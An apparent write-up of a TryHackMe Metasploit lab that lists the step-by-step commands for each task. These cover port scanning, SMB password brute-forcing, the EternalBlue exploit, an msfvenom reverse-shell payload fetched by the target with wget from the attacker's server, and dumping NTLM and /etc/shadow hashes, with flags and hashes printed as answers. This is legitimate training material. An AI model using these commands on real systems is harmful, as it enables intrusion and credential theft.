##### Link: [Metasploit: Exploitation](https://tryhackme.com/room/metasploitexploitation)
---
##### Task 1: Introduction
1. Start the AttackBox and run Metasploit using the `msfconsole` command to follow along this room.
	- `No answer needed`
---
##### Task 2: Scanning
1. How many ports are open on the target system?
	- Select module
		- `use auxiliary/scanner/portscan/tcp`
			- 
	- Configure it
		- `show options` → It only require target IP address
		- `set RHOSTS 10.49.184.217`
			- 
	- Run module
		- `run`
			- 
	- Answer: `5`
2. Using the relevant scanner, what `NetBIOS` name can you see?
	- Search then select module
		- `search netbios name`
		- `use auxiliary/scanner/netbios/nbname`
			- 
	- Configure it
		- `show options` → It only require target IP address
		- `set RHOSTS 10.49.184.217`
			- 
	- Run module
		- `run`	
			- 
	- Answer: `ACME IT SUPPORT`
3. What is running on port 8000?
	- Search then select module
		- `search http_version`
		- `use auxiliary/scanner/http/http_version`
			- 
	- Configure it
		- `show options` → Require target IP address and set port to 8000
		- `set RHOSTS 10.49.184.217`
		- `set RPORT 8000`
			- 
	- Run module
		- `run` 
			- 
	- Answer: `webfs/1.21`
4. What is the `penny` user's SMB password? Use the wordlist mentioned in the previous task.
	- Search then select module
		- `search smb_login`
		- `use 0`
			- 
	- Configure it
		- `show options` → We can provide target IP, username, & password wordlist
			- 
		- `ls | grep Meta` → Confirm provided wordlist  already in current directory
			- 
		- `set SMBUser penny`
		- `set PASS_FILE MetasploitWordlist-1632491116676.txt` →
		- `set RHOSTS 10.49.184.217`
			- 
	- Run module
		- `run`
			- 
	- Answer: `leo1234`
---
##### Task 3: The Metasploit Database
1. No answers needed.
	- `No answers needed`
---
##### Task 4: Vulnerability Scanning
1. Who wrote the module that allows us to check SMTP servers for open relay?
	- `search SMTP open relay`
	- `info 0`
		- 
	- `Campbell Murray`
---
##### Task 5: Exploitation
1. Exploit one of the critical vulnerabilities on the target VM
	- Use module
		- `use exploit/windows/smb/ms17_010_eternalblue`
			- 
		- `show options`
			- 
			- 
	- Set module. Payload already set to `reverse_tcp`, no need to change it
		- `set RHOSTS 10.49.161.205`
		- `set LHOST tun0`
			- 
	- Run
		- `run`
			- 
			- 
	- Exploit works and we get `meterpreter` shell
	- `No answer needed`
2. What is the content of the flag.txt file?
	- Search
		- `search -f flag.txt`
			- 
	- Standard path won’t work because `/` treated as escape character
		- `cat c:\Users\Jon\Documents\flag.txt`
			- 
	- We can avoid this by using `\` or `//`
		- `cat c:/Users/Jon/Documents/flag.txt`
		- `cat c:\\Users\\Jon\\Documents\\flag.txt`
			- 
	- Or by spawning shell
		- `shell` 
		- `cat C:\Users\Jon\Documents\flag.txt`
			- 
	- Answer: `THM-5455554845`
3. What is the NTLM hash of the password of the user `pirate`?
	- Use `hashdump` module
		- `run post/windows/gather/hashdump`
			- 
	- Answer: `8ce9a3ebd1647fcc5e04025019f4b875`
---
##### Task 6: Msfvenom
1. Launch the VM attached to this task. The username is `murphy`, and the password is `1q2w3e4r`. You can connect via SSH or launch this machine in the browser. Once on the terminal, type `sudo su` to get a root shell, this will make things easier.
	- Connect to target
		- `ssh murphy@10.49.187.206`
			- 
		- `sudo su`
			- 
	- `No answer needed`
2. Create a meterpreter payload in the .elf format (on the AttackBox, or your attacking machine of choice).
	- Use `msfvenom` with our attack host IP. Take note of options used (payload, `LHOST`, & `LPORT`) because it will be used on `metasploit` config
		- `msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.167.10 LPORT=4444 -f elf > rev_shell.elf`
			- 
	- `No answer needed`
3. Transfer it to the target machine (you can start a Python web server on your attacking machine with the `python3 -m http.server 9000` command and use `wget http://ATTACKING_MACHINE_IP:9000/shell.elf` to download it to the target machine).` 
	- Attack host
		- `python3 -m http.server 8000`
			- 
	- Target
		- `wget http://192.168.167.10:8000/rev_shell.elf`
			- 
	- `No answer needed`
4. Get a meterpreter session on the target machine.
	- On attack host, run `multi/handler`
		- `use exploit/multi/handler`
		- `show options`
			- 
	- Match setting with generated payload earlier
		- `set payload linux/x86/meterpreter/reverse_tcp`
		- `set LHOST tun0`
		- `set LPORT 4444` (already match)
		- `show options`
			- 
	- Back to attack host, gives execute permission then run it
		- `chmod +x rev_shell.elf`
		- `./rev_shell.elf`
			- 
	- Back to attack host, we get `meterpreter` session
		- Image
			- 
	- Note: If we get errors like `Segmentation fault (core dumped)` or `Illegal instruction (core dumped)` its usually because payload mismatch between `msfvenom` & `metasploit`
		- 
	- `No answer needed`
6. Use a post exploitation module to dump hashes of other users on the system.
	- `No answer needed`
7. What is the other user's password hash?
	- Using meterpreter session from previous question, read `/etc/shadow`
		- `cat /etc/shadow`
			- 
			- 
	- `$6$Sy0NNIXw$SJ27WltHI89hwM5UxqVGiXidj94QFRm2Ynp9p9kxgVbjrmtMez9EqXoDWtcQd8rf0tjc77hBFbWxjGmQCTbep0`
---
##### Task 7: Summary
1. No answer is needed.
	- `No answer is needed`
---
 